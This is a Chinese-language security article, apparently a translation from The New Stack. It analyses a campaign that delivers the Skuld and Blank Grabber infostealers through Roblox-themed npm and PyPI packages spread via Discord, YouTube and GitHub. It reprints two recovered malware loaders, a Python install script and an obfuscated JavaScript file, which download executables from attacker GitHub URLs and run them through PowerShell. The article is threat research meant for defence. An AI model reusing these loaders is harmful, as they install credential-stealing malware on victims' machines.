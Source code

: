 # 网络罪犯并非儿戏：潜伏在Roblox模组中的恶意软件

![潜伏在Roblox模组中的恶意软件的特色图片](https://cdn.thenewstack.io/media/2025/01/fcc51bc2-gaming-1024x576.jpg)

几十年来，投机的网络罪犯一直利用破解游戏或模组来向热情的游戏玩家传播恶意软件。随着威胁形势的发展，网络罪犯的策略也随之演变。

像Discord和Roblox这样的在线游戏平台拥有庞大而活跃的用户群，他们依赖开源库来创建机器人、插件、游戏作弊器和纹理包。[攻击者利用恶意npm和PyPI软件包攻击这些社区](https://thenewstack.io/what-developers-can-grok-from-the-latest-pypi-package-attack/)，为非法经济利益进行无情的活动。


攻击者超越了诸如[错字劫持](https://thenewstack.io/vulnerabilities-versus-intentionally-malicious-software-components/)（攻击者使用名称相似的软件包）之类的常用技巧，利用与游戏玩家最喜欢的工具的关联来分发恶意软件。他们越来越多地将软件包与相关的主题对齐，例如`robloxmatcher`或`solaraupgrade`，在社区内部传播它们。


## 社区作为恶意软件载体

攻击者利用Discord、YouTube和论坛等社区平台的信任性质，欺骗缺乏经验的开发者和模组制作者安装定制的恶意软件包。

用户之间的文件共享很常见，自动化安全工具通常会错过嵌入在软件包中的恶意脚本。无论如何，参与游戏破解的用户倾向于将杀毒软件检测视为误报。游戏作弊器的安装指南通常鼓励用户禁用杀毒软件和实时保护，从而破坏大多数防止感染的安全措施。


### Discord作为分发渠道

Discord频道和直接消息是进行[社会工程](https://thenewstack.io/how-supply-chain-attackers-maximize-their-blast-radius/)的沃土。恶意行为者会伪装成社区成员，推广最终旨在窃取凭据和创建僵尸网络的载荷工具。

例如，寻求Solara（Roblox Lua脚本执行器）帮助的用户可能会被引导下载恶意npm或PyPI软件包。此操作可能会在其主机上部署远程访问木马（RAT）。


专门讨论Roblox模组的Subreddit包含此网络钓鱼途径的证据，一些用户正确地质疑不良行为者提供的软件包安装命令的有效性。下面，r/robloxhackers子Reddit中的用户询问npm软件包`getsolara`和`fixsolara`的安全性，这两个软件包都是恶意的。


### YouTube教程

YouTube视频是恶意软件分发的常用载体。教程可能会通过恶意链接承诺“无限Robux”，机器人会留下置顶评论来说服其他人相信其真实性。

![YouTube视频（俄语翻译）引导Roblox模组制作者访问Google Drive托管的恶意软件。](https://cdn.thenewstack.io/media/2025/01/e57fbada-image3-1011x1024.png)

### GitHub问题和评论

与Roblox开发相关的GitHub存储库也是常见的目标。恶意行为者劫持合法项目的“问题”部分，在“错误修复”或“功能增强”中嵌入恶意链接。


## RobloxPlayerLauncher – 持久的窃取信息活动

上面提到的Solara主题软件包是我们Stacklok公司自去年9月以来一直在追踪的一个持续的、跨语言的恶意活动的一部分。


### 针对Roblox用户的PyPI活动

该活动最初专门针对Roblox游戏“Da Hood”的玩家，这是该平台上最受欢迎的游戏之一。恶意软件包，例如`antibyfron`、`dahood`和`roinject`，通过模仿Roblox开发工具（包括Byfron，该框架的反作弊系统）的链接来伪造可信度。


[Imperva的一项调查](https://www.imperva.com/blog/trouble-in-da-hood-malicious-actors-use-infected-pypi-packages-to-target-roblox-cheaters/)揭示了一个YouTube频道和一个Discord服务器，它们宣传依赖于恶意软件包的作弊工具，这些软件包已被下载超过3000次。安装后，这些软件包将使用PowerShell下载并执行可疑的Windows可移植可执行文件（PE）。


由于代码和注释未经混淆处理，因此脚本的功能很清楚。恶意软件托管在一个攻击者控制的GitHub存储库中。以下是`antibyfron`软件包的`__init__.py`脚本中的Python代码；注释为原文。

```
12345678910111213141516171819
```
```python
import subprocess
import os

# 定义下载文件的输出路径
output_file = os.path.join(os.getcwd(), "zwerve.exe")

# 步骤 1：使用 curl.exe 下载文件的 PowerShell 命令。
download_command = f'curl.exe -L https://github[.]com/holdthatcode/e/raw/main/zwerve.exe -o "{output_file}"'

# 运行 PowerShell 命令下载文件
download_result = subprocess.run(["powershell", "-Command", download_command], capture_output=True, text=True)

# 检查下载是否成功以及文件是否存在
if download_result.returncode == 0 and os.path.exists(output_file):
    # 步骤 2：使用完整路径静默运行下载的可执行文件
    execute_command = f'Start-Process "{output_file}" -NoNewWindow -Wait'
    execute_result = subprocess.run(["powershell", "-Command", execute_command], capture_output=True, text=True)
else:
    print("文件下载失败或文件未找到。")

```

到 10 月中旬，此次活动背后的威胁参与者将重点转向 Node.js 生态系统，发布了 Roblox 主题的 npm 包，例如 `robloxmatcher`、`getsolara.dev`、`upgrade-roblox`、`solaraupdater`、`robloxbootstrapper` 和 `xeno.dll`。

所有这些包的功能都相同——每个包都包含一个混淆的 JavaScript 文件，用于通过 PowerShell 加载其他 Windows 二进制文件。与 PyPI 样本的一个区别在于，它交付了两个或三个有效负载，而不是一个。


```javascript
const urls = ["https://github[.]com/zvydev/code/raw/main/RobloxPlayerLauncher[.]exe", "https://github[.]com/zvydev/code/raw/main/cmd[.]exe"];
const outputFiles = [path.join(__dirname, "RobloxPlayerLauncher[.]exe"), path.join(__dirname, "cmd[.]exe")];

function downloadAndRun(_0x3b7236, _0x102edc) {
  const _0x37a2f3 = "powershell -Command \"Invoke-WebRequest -Uri '" + _0x3b7236 + "' -OutFile '" + _0x102edc + "'\"";
  const _0x421bc1 = "powershell -Command \"Start-Process '" + _0x102edc + "'\"";
  exec(_0x37a2f3, (_0x3a523a, _0x3d32f7, _0x492c55) => {
    if (_0x3a523a) {
      console.error("Download error: " + _0x3a523a.message);
      return;
    }
    // [...]
  });
}

urls.forEach((_0x2601bf, _0x4d4889) => {
  downloadAndRun(_0x2601bf, outputFiles[_0x4d4889]);
});
```

### Skuld 和 Blank Grabber 窃取程序

对下载的可执行文件的分析表明，有效负载 `RobloxPlayerLauncher.exe` 是 [Skuld](https://www.acronis.com/en-eu/cyber-protection-center/posts/tmpn-skuld-stealer-the-dark-side-of-open-source/) 的一个变体，这是一种用 Golang 编写的规避性信息窃取程序，而 `cmd.exe` 是 [Blank Grabber](https://www.cyfirma.com/research/blank-grabber-returns-with-high-evasiveness/)，一个基于 Python 的信息窃取程序。两者都源自开源恶意软件项目，具有重叠的功能，例如通过 Discord Webhooks 或 Telegram 机器人收集凭据、加密货币钱包、浏览器历史记录和游戏平台会话。

尽管在整个活动中文件名和托管服务有所不同，但核心信息窃取程序菌株保持一致。

到 11 月，运营者已经放弃了 GitHub，转而使用 Replit 和 Cloudfare Tunnel 托管他们的工具，同时整合了像 QuasarRAT 这样的新有效负载，从而在受害者机器上启用持久的后门。最近的迭代简化了恶意软件的交付，只专注于 Skuld 窃取程序。

## 总结

一个针对 Roblox 用户的持续活动突显了网络犯罪分子如何利用活跃的游戏社区来扩大其攻击范围。这种策略绝非独一无二——类似的活动已经部署了 [LunaGrabber](https://www.reversinglabs.com/blog/fake-roblox-api-packages-luna-grabber-npm)、[QuasarRAT](https://stacklok.com/blog/destroyloneliness-npm-starjacking-attack-on-roblox-nodejs-library-delivers-quasarrat) 甚至 [勒索软件](https://www.sonatype.com/blog/fake-npm-roblox-api-package-installs-ransomware-spooky-surprise)。

为了应对这种持续存在的威胁，修改者必须严格验证软件包的真实性，警惕社会工程策略，并在与不受信任的来源的建议互动时谨慎行事。像 [CodeGate](https://codegate.ai/)（一个 AI 编码助手代理）这样的工具可以帮助开发人员识别和避免不安全的依赖项。

[YOUTUBE.COM/THENEWSTACK 技术发展迅速，不要错过任何一集。订阅我们的 YouTube 频道，收看我们所有的播客、访谈、演示等等。](https://youtube.com/thenewstack?sub_confirmation=1)